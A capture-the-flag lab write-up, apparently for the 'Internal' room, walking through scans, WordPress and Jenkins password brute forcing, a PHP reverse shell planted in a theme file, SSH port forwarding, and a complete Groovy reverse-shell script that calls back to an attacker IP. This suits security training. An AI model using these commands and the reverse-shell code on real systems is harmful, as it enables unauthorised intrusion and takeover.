Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.80.163.1 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-10 09:12 IST
Warning: 10.80.163.1 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.80.163.1
Host is up (0.23s latency).
Not shown: 62154 closed tcp ports (reset), 3379 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 39.96 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,80 10.80.163.1                  
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-10 09:13 IST
Nmap scan report for 10.80.163.1
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```

Added to /etc/hosts as `internal.thm`
![[Pasted image 20260210091635.png]]

Visiting internal.thm on port 80


Directory bruteforcing

Lets visit those directories one by one

I tried default credentials such as ‘admin: password’ but they didn’t work. When I navigated to the ‘javascript’ path, I received a ‘Forbidden’ error message.

Okay, Let’s navigate to the ‘blog’ path


Let’s use the ‘**wpscan**’ Scanner to scan this website and see if we can find anything interesting.
WPScan is what we utilize for brute force and user enumeration. We will receive credentials to gain administrator access.

```sh
wpscan --url "http://internal.thm/blog" -P /usr/share/wordlists/rockyou.txt
```


admin : my2boys
Now we can log in with these credentials.




### Exploiting

Taking advantage of our privileges, we will edit the file “**index.php**” and insert our reverse shell. An annotation, this is something “**noisy**“, in a real scenario, an attacker would hide this code in another less usable file, or would create a condition with PHP so that the reverse shell would only be executed on an IP address, flag by GET, etc… in MD5 (for example).
Traverse to Appearance > Themes


After this customize > main index template and edit it.


Start nc listener

visit this page from your browser to take a reverse shell but here twist is that we inserted php reverse shell code into 404.php file and update it. To get the shell we visited below highlighted url.





### Privilege Escalation (user “aubreanna”)

After performing many actions for the enumeration, we found a text file that seems interesting.
```sh
find / name *.txt 2>/dev/null
```


We read it and it contains the credentials of the **aubreanna** user.


We authenticate with the user “**aubreanna**” and by **SSH** and we access his home and read the flag of **“user.txt**“.



### Privilege Escalation (root)

We find the file “**jenkins**.txt”, read it and it gives us the clue that the service is running internally on an IP address on port 8080.

I need to access an internal website running in Docker through port forwarding using SSH.
![[Internal20.png]]
```sh
ssh aubreanna@10.80.163.1 -L 8000:172.17.0.1:8080
```


Now we can access the website on our machine. We locate a Jenkins service on the website, and we attempt using the credentials we have so far (WordPress, wp-config.php, mysql, etc.), but nothing seems to work.


During my search, I discovered that the username was admin and attempted to use Hydra to launch a password attack...
```sh
hydra localhost -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -s 8000 -V -l admin -P /usr/share/wordlists/rockyou.txt
```



We logged into the application.

After searching on Google, I found a way to get a reverse shell and now we need to open the script console by selecting Jenkins → manage Jenkins → script console.


Jenkin script
```
String host="10.9.5.154";
int port=6666;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Start nc



We got shell



Login to ssh using this creds and find the flag.



